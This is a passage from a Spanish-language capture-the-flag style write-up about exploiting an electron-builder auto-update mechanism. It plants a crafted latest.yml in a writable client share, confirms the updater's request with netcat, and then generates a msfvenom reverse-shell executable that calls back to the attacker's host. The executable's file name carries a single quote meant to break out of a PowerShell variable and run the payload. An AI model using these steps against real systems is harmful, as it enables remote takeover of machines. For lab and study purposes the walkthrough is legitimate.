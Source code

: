 Antes de crear el binario malicioso, vamos a identificar como funciona por detrás indicando la URL como Path y poniendo NC a la escucha en el puerto 80.

Creamos el archivo **latest.yml** con la siguiente sintaxis:

```bash
> cat -p latest.yml

version: 1.2.3
path: <http://10.10.14.14/test>
sha512: 12345 # No importa, ponemos el que queramos
```

Copiamos el archivo **latest.yml** a cualquiero directorio **Client** que hemos enumerado anteriormente y esperamos:

```bash
> cp latest.yml /mnt/share/client1/. 
```

Y obtenemos en netcat la siguiente petición GET:

```bash
> nc -lvnp 80

Listening on 0.0.0.0 80
Connection received on 10.129.173.50 57919
GET /test.blockmap HTTP/1.1
Host: 10.10.14.14
Connection: keep-alive
Content-Length: 0
accept: */*
User-Agent: electron-builder
Cache-Control: no-cache
Accept-Encoding: gzip, deflate
Accept-Language: en-US
```

## Explotación

Vale, vemos que efectivamente se realiza una petición como se indica. Pasamos a crear el binario malicioso para que se instale en la máquina cuando se realice la llamada.

```bash
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -f exe -o r\\'everse.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: r'everse.exe
```

Recordad que es importante meter la comilla simple en el nombre del binario para que este escape al contexto del script de Powershell justo en la variable "${tempUpdateFile}" y se ejecute directamente. Con CrackMapExec hemos identificado que se trata de Windows 10 Pro x64.
